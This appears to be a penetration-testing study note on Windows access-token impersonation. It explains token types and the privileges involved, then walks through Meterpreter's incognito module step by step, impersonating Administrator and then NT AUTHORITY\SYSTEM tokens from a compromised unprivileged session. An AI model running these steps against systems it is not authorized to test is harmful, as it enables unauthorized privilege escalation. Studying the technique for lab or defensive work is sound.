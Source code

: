 # Privilege Escalation: Access Token Impersonation
> How to impersonate a Windows Access Token that belongs to a privileged user (allows us to inherit that users privileges). 

## Contents
- [Intro](#intro)
  - [Windows Access Tokens](#windows-access-tokens)
  - [How Windows Access Token Work](#how-windows-access-token-work)
  - [Windows Privileges](#windows-privileges)
  - [Tool: The Incognito Module](#tool-the-incognito-module-metasploit)
- [Practical: Incognito](#practical-incognito)
  - [Scenario](#scenario)
  - [Usage: Meterpreter Module](#usage-meterpreter-module)

## Intro

### Windows Access Tokens
- Windows access tokens are a core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).
- A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system.
  - Simply put, an access token can be thought of as a temporary key similar to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is needed.
- Access tokens are generated by the winlogon.exe process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process.
  - The token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.

### How Windows Access Token Work
- Windows access tokens are categorized based on the varying security levels assigned to them. These security levels are used to determine the privileges that are assigned to a specific token.
- An access token will typically be assigned one of the following security levels:
  - `Impersonate`: Impersonate-level tokens are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons.
  - `Delegate`: Delegate-level tokens are typically created through an interactive login in Windows, primarily through a traditional login or through remote acess protocols like RDP.
- Impersonate-level tokens can be used to impersonate a token on the local system but not on any external systems that utilize the token.
- Delegate-level tokens pose the largest threat as they can be used to impersonate tokens on any system.

### Windows Privileges
- The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens available.
- The following are the privileges (getprivs in meterpreter) that are required for a successful impersonation attack:
  - `SeAssignPrimaryToken`: This allows a user to impersonate tokens.
  - `SeCreateToken`: This allows a user to create an arbitrary token with administrative privileges.
  - `SeImpersonatePrivilege`: This allows a user to create a process under the security context of another user typically with administrative privileges.

### Tool: [The Incognito Module](https://www.offsec.com/metasploit-unleashed/fun-incognito/) (MetaSploit)
> Incognito is a built-in **_meterpreter_** module (not just a Metasploit module; it is built into meterpreter) that was originally a standalone application that allows you to impersonate user tokens after successful exploitation.
- Tokens are just like web cookies.
  - They are a temporary key that allows you to access the system and network without having to provide credentials each time you access a file.
- Incognito exploits this the same way cookie stealing works: By replaying that temporary key when asked to authenticate.
- Tokens persist until a reboot.
  - When a user logs off, their delegate token is reported as an impersonate token.
  - But will still hold all of the rights of a delegate token.
- We can use the incognito module to display a list of available tokens that we can impersonate.

## Practical: Incognito

### Scenario
- You have an unprivileged meterpreter session on an compromised target (via MSF).
- This attack will depend on what users are currently on the system and if any of those users has an account with admin access.
  - They'll leave their tokens just lying around for us to pick up...

### Usage: Meterpreter Module

#### Initial
```
> sysinfo
  # target is 64-bit but meterpreter is 32-bit; migrate meterpreter to 64-bit

> pgrep explorer
> migrate [pid]
  # ACCESS DENIED b/c we currently have an unprivileged user account

> getuid
  # NT AUTHORITY/LOCAL SERVICE... not system

> getprivs
  # confirms your limited privileges on the account you're using
  # NOTE: The getprivs lists out the privileges assigned to this account. One of them is SeImpersonatePrivilege.
  # That means we can use this account to impersonate other access token available.

> load incognito
  # if your session dies, start it again and load again...

> list_tokens -u
  # lists user's delegation and impersonation tokens
```

#### Find & Impersonate Admin Token
- What you are interested in are **Delegation** tokens (token created as part of an interactive login) that have administrator privileges.
- For example: HOSTNAME\Administrator this would be a fine delegated token to impersonate).
```
> impersonate_token "HOSTNAMEE\Administrator" 
  # you may need to add a second "\" (HOSTNAME\\Administrator)
  # should be successful

> getuid
  # should show the above account

> getprivs
  # FAIL

> pgrep explorer
> migrate [pid]

> getprivs
  # should have a bundle of goodies: elevated privileges

> list_tokens -u
  # If you list-tokens -u again, you'll see you have additional tokens available.
  # One such token is NT AUTHORITY\SYSTEM.

> impersonate_token "NT AUTHORITY\SYSTEM"
> getuid
  # should show that same name
> getprivs
```

- If you do not have any administrator level tokens available (when you list_tokens -u), then you'll have to do a `potato attack`.
- This will generate an NT AUTHORITY access token that you can then use to impersonate and thereby obtain the privileges assocated with that token. 
